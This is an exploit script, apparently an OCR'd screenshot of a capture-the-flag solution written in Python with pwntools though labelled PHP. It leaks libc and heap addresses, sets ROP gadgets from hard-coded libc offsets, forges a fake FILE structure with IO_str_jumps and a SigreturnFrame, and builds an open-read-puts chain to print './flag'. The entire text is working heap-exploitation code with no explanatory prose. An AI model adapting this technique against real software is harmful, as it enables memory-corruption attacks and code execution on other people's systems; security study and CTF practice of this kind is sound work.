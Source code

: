 ```php

##set libc_func
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']

##leak heap
new(0x20,'F'*0x10 + '\n') #3
load(3)
free(1)
p.recvuntil('F'*0x10)
heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0x2C0 - 0x60
log.info('HEAP:\t' + hex(heap_base))

## set gadget
pop_rdi_ret = libc_base + 0x26B72
pop_rdx_r12 = libc_base + 0x11c1e1
pop_rsi_ret = libc_base + 0x27529
pop_rax_ret = libc_base + 0x4A550

## set libc_ables
jmp_rsi  = libc_base + 0x1105bd
syscall = libc_base + libc.sym['syscall']
target = libc_base + libc.sym['_IO_2_1_stdin_']
address = libc.sym['__free_hook'] + libc_base
IO_str_jumps = libc_base + 0x1ED560
Open = libc_base + libc.symbols["open"]
Read = libc_base + libc.symbols["read"]
Puts = libc_base + libc.symbols['puts']
free_hook = address

##set fake_io
IO  = '\x00'*0x28
IO += p64(heap_base + 0x360 + 0xE0) ##rdx
IO  = IO.ljust(0xD8,'\x00')
IO += p64(IO_str_jumps)

##
read = libc_base + libc.sym['read']
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = address
frame.rdx = 0x2000
frame.rsp = address
frame.rip = Read
orw  = p64(pop_rdi_ret)+p64(free_hook + 0xF8)
orw += p64(pop_rsi_ret)+p64(0)
orw += p64(Open)
orw += p64(pop_rdi_ret) + p64(3)
orw += p64(pop_rdx_r12) + p64(0x30) + p64(0)
orw += p64(pop_rsi_ret) + p64(free_hook+0x100)
orw += p64(Read)
orw += p64(pop_rdi_ret)+p64(free_hook+0x100)
orw += p64(Puts)
orw  = orw.ljust(0xF8,'\x00')
orw += './flag\x00\x00'
IO += str(frame)

##
for i in range(3):
    load(i)
free(3)
new(0x3E0,IO + '\n') #0
```
